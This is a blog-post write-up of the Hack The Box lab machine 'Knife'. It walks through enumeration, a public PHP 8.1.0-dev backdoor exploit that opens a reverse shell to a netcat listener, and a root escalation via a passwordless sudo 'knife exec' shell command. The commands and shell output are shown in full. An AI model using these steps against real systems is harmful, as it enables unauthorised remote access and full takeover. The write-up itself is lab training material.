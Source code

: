 ```yaml
---
layout: post
title: "HTB - Knife"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```

I've just completed Knife from HTB! In my opinion, Knife is a rather straight forward box that makes use of existing backdoors. Here's a quick writeup on how I solved this box.

<!--more-->

## HTB - Knife
**Box** : Knife\
**IP Address** : 10.10.10.242\
**Operating System** : Linux

## Remarks

- Google is your best friend!
- Also not to forget, `exploitdb` :)

### Enumeration
As usual, we will first start off with our normal Nmap scans to identify the possible open ports and the operating systems behind each port. This box is quite simple, with only 2 open ports - `22` and `80`.

Port `22` belongs to an SSH server, while port `80` belongs to a web server running on `Apache 2.4.41 (Ubuntu)`

Visiting the web server does not yield any interesting results providing hints to any exploitable vulnerabilities. So, we will go on to scan the website with `Nikto`, which uncovered an interested information that the web server has an `x-powered-by` header of `PHP/8.1.0-dev`

```
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
```

### Exploitation

The first step that I took was to try to exploit the `Apache/2.4.41` by searching for vulnerabilities related to it. CVE 2020-1927 was found to be the most promising exploit related to it, but unfortunately I was unable exploit it on the website (LIFE OF A SAD HTB PLAYER IN A NUTSHELL....)

The second step that I tried was to look for potential exploits for `PHP/8.1.0-dev`. This time though, I was able to find potential exploits on this [repository](https://github.com/flast101/php-8.1.0-dev-backdoor-rce). This repository provided 2 different exploits, namely a `reverse shell exploit` and a `RCE exploit`. For this case, I choose to do a `reverse shell exploit` first but thankfully it worked!! (Actually I was just lazy and just took a random exploit to try it out XD)

```
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
mv revshell_php_8.1.0-dev.py exploit_revshell.py 
```

Now, all that is left is for us to first open a listener on the attacker's machine using `nc -nlvp 3000` and execute the exploit script on the victim's machine using `python3 exploit_revshell.py http://10.10.10.242 <Your IP address> 3000 `

Now, we have successfully obtained a reverse shell! So what's next? Of course, we have to stabilize the shell :-)

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.242] 48826
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ cd home
cd home
```

### Obtaining user flag

Now, all that is left for us is to obtain the user flag! Easy Peezy

```
james@knife:/home$ ls
ls
james
james@knife:/home$ cd james
cd james
james@knife:~$ ls
ls
user.txt
james@knife:~$ cat user.txt
cat user.txt
```

### Obtaining system/root flag

Wait! But we are not done with the machine yet! There is still another system flag yet to be discovered.

So, let's run `sudo -l` to check for the permissions. What we noticed was that `/usr/bin/knife` can be executed with root privileges, without the need for any password :o

```
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

But, here comes the problem - What exactly is this `/usr/bin/knife`? So, a very quick google search tells me that `/usr/bin/knife` belongs to an open-source [repository](https://github.com/chef/chef) which serves as an infrastructure server.

So now comes the next question - How can `/usr/bin/knife` be exploited? Fortunately, the answer lies in the documentation of `knife`. Reading the documentation, I discovered that there is a `knife exec` command that allows me to execute scripts using `knife`. This could potentially allow us to obtain a root shell.

Now, lets put our theory to the test! And, it worked! All we have to do is to stabilize the shell and obtain the system flag.

```
james@knife:~$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh  root.txt  snap
root@knife:~# cat root.txt
cat root.txt
```